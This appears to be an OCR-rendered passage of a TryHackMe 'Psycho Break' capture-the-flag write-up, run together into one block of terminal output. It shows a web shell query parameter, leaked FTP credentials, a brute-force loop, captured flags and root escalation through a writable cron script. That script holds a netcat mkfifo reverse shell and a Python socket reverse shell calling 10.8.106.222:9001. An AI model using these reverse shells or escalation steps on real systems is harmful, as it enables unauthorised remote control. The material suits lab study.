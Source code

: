 ```html
  <!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->

  <!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->

  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls
  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls%20..
  680e89809965ec41e64dc7e447f175ab be8bc662d1e36575a52da40beba38275 index.php
  http://10.10.172.137/abandonedRoom/680e89809965ec41e64dc7e447f175ab/
  kali@kali:~/CTFs/tryhackme/Psycho Break$ cat you_made_it.txt You made it.
  Escaping from Laura is not easy, good job ....
  kali@kali:~/CTFs/tryhackme/Psycho Break$ unzip helpme.zip Archive: helpme.zip
  inflating: helpme.txt inflating: Table.jpg kali@kali:~/CTFs/tryhackme/Psycho
  Break$ cat helpme.txt From Joseph, Who ever sees this message "HELP Me". Ruvik
  locked me up in this cell. Get the key on the table and unlock this cell. I'll
  tell you what happened when I am out of this cell. SHOWME
  kali@kali:~/CTFs/tryhackme/Psycho Break$ cat thankyou.txt From joseph, Thank
  you so much for freeing me out of this cell. Ruvik is nor good, he told me
  that his going to kill sebastian and next would be me. You got to help
  Sebastian ... I think you might find Sebastian at the Victoriano Estate. This
  note I managed to grab from Ruvik might help you get inn to the Victoriano
  Estate. But for some reason there is my name listed on the note which I don't
  have a clue. -------------------------------------------- // \\ || (NOTE) FTP
  Details || || ================== || || || || USER : joseph || || PASSWORD :
  intotheterror445 || || || \\ // --------------------------------------------
  Good luck, Be carefull !!! kali@kali:~/CTFs/tryhackme/Psycho Break$ chmod +x
  program kali@kali:~/CTFs/tryhackme/Psycho Break$ strings random.dic >
  brute.txt kali@kali:~/CTFs/tryhackme/Psycho Break$ while read LINE; do
  ./program "$LINE"; done < brute.txt | grep Correct kidman => Correct
  kali@kali:~/CTFs/tryhackme/Psycho Break$ ./program kidman kidman => Correct
  Well Done !!! Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3
  444 7777 7777 666 7777 8 777 2 66 4 33 https://keypad-translator.glitch.me/ k
  i d m a n s p a s s w o r d i s s o s t r a n g e KIDMANSPASSWORDISSOSTRANGE
  kidman kidman@evilwithin:~$ cat user.txt 4C72A4EF8E6FED69C72B4D58431C4254
  kidman@evilwithin:~$ cat /etc/crontab # /etc/crontab: system-wide crontab #
  Unlike any other crontab you don't have to run the `crontab' # command to
  install the new version when you edit this file # and files in /etc/cron.d.
  These files also have username fields, # that none of the other crontabs do.
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin # m h dom
  mon dow user command 17 * * * * root cd / && run-parts --report
  /etc/cron.hourly 25 6 * * * root test -x /usr/sbin/anacron || ( cd / &&
  run-parts --report /etc/cron.daily ) 47 6 * * 7 root test -x /usr/sbin/anacron
  || ( cd / && run-parts --report /etc/cron.weekly ) 52 6 1 * * root test -x
  /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) */2 * *
  * * root python3 /var/.the_eye_of_ruvik.py rm /tmp/f;mkfifo /tmp/f;cat
  /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f import
  socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0);
  os.dup2(s.fileno(),1);
  os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
  kali@kali:~/CTFs/tryhackme/Psycho Break$ nc -lnvp 9001 Listening on 0.0.0.0
  9001 Connection received on 10.10.172.137 57536 bash: cannot set terminal
  process group (1763): Inappropriate ioctl for device bash: no job control in
  this shell root@evilwithin:~# cat /root/root.txt cat /root/root.txt
  BA33BDF5B8A3BFC431322F7D13F3361E root@evilwithin:~#
</p>
```
